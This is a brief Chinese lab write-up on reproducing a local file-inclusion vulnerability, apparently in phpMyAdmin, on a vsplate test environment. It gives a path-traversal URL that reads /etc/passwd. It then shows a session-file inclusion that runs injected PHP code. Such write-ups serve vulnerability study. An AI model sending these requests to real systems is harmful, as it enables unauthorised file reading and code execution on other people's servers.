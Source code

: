 

#### vsplate在线漏洞复现环境镜像搭建

- 首先访问`/etc/passwd`检测是否有文件包含漏洞：

  ` http://192.168.56.107:8002/index.php?target=db_sql.php%253F/../../../../../../../../etc/passwd`

  ![](img/online-test1.png)

- 执行sql语句`select '<?php phpinfo();exit;?>'`，运行日志会记录在sess_sessionId的文件里，访问这个文件能看到phpinfo()的页面

- %3c ?php phpinfo();exit;? %3e

  `http://192.168.56.107:8002/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_177d333c3df7d569cac50f460e31ea56`
